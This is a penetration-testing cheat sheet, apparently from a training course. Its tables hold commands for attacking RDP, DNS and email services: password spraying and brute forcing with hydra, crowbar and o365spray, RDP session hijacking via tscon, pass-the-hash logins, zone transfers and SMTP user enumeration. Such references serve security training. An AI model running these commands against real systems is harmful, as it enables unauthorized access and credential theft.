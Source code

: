 
#### Attacking RDP

|**Command**|**Description**|
|-|-|
| `crowbar -b rdp -s 192.168.220.142/32 -U users.txt -c 'password123'` | Password spraying against the RDP service. |
| `hydra -L usernames.txt -p 'password123' 192.168.2.143 rdp` | Brute-forcing the RDP service. |
| `rdesktop -u admin -p password123 192.168.2.143` | Connect to the RDP service using `rdesktop` in Linux. |
| `tscon #{TARGET_SESSION_ID} /dest:#{OUR_SESSION_NAME}` | Impersonate a user without its password. |
| `net start sessionhijack` | Execute the RDP session hijack. |
| `reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f` | Enable "Restricted Admin Mode" on the target Windows host. |
| `xfreerdp /v:192.168.2.141 /u:admin /pth:A9FDFA038C4B75EBC76DC855DD74F0DA` | Use the Pass-The-Hash technique to login on the target host without a password. |

#### Attacking DNS

|**Command**|**Description**|
|-|-|
| `dig AXFR @ns1.inlanefreight.htb inlanefreight.htb` | Perform an AXFR zone transfer attempt against a specific name server. |
| `subfinder -d inlanefreight.com -v` | Brute-forcing subdomains. |
| `host support.inlanefreight.com` | DNS lookup for the specified subdomain. |

#### Attacking Email Services

|**Command**|**Description**|
|-|-|
| `host -t MX microsoft.com` | DNS lookup for mail servers for the specified domain. |
| `dig mx inlanefreight.com \| grep "MX" \| grep -v ";"` | DNS lookup for mail servers for the specified domain. |
| `host -t A mail1.inlanefreight.htb.` | DNS lookup of the IPv4 address for the specified subdomain. |
| `telnet 10.10.110.20 25` | Connect to the SMTP server. |
| `smtp-user-enum -M RCPT -U userlist.txt -D inlanefreight.htb -t 10.129.203.7` | SMTP user enumeration using the RCPT command against the specified host. |
| `python3 o365spray.py --validate --domain msplaintext.xyz` | Verify the usage of Office365 for the specified domain. |
| `python3 o365spray.py --enum -U users.txt --domain msplaintext.xyz` | Enumerate existing users using Office365 on the specified domain. |
| `python3 o365spray.py --spray -U usersfound.txt -p 'March2022!' --count 1 --lockout 1 --domain msplaintext.xyz` | Password spraying against a list of users that use Office365 for the specified domain. |
| `hydra -L users.txt -p 'Company01!' -f 10.10.110.20 pop3` | Brute-forcing the POP3 service. |
| `swaks --from notifications@inlanefreight.com --to employees@inlanefreight.com --header 'Subject: Notification' --body 'Message' --server 10.10.11.213` | Testing the SMTP service for the open-relay vulnerability. |
